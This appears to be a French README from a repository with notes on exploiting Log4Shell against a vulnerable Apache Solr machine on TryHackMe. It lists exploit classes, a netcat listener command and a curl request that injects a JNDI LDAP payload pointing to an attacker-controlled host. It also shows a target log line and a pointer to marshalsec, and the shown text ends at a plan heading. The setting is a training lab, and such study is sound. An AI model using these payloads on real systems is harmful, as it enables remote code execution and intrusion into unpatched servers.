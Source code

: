 
Si besoin `ldapdelete  -x -W -D "cn=admin,dc=brochain" 'cn=malicious-exploit,dc=brochain'` puis `exploit.v2.JNDIBind`

1. exploit.v1.JNDIBind
2. exploit.v1.JNDILookup
3. exploit.v2.Exploit
4. exploit.v2.JNDIBind
5. exploit.v2.JNDILookup
6. `nc -lnp 9999` puis exploit.v2.Log4j2Lookup

# attaque d'une machine vulnérable sur tryhackme

Lancer la machine et naviguer dans l'IHM Apache Solr

## Echec !

en local
```
nc -lnvp 9999
```

en local, pour connaître mon IP sur le réseau de tryhackme
```
ifconfig
```
ou
```
ip addr show
```

on requête l'application Apache Solr vulnerable sur la machine cible
```
curl 'http://10.10.106.228:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.2.236:389/cn=malicious-exploit,dc=brochain\}'
```

Problème (en fait) dans les logs de l'application cible :
```
INFO  (qtp1008315045-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://10.9.2.236:389/cn%3Dmalicious-exploit,dc%3Dbrochain}} status=0 QTime=0
```
On arrive pas à produire le log qu'on veut côté Solr. Les = sont url décodés

## Succès avec marshalsec

[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

Plan (*attention les IP ne correspondent pas aux commandes ci-dessous*) :
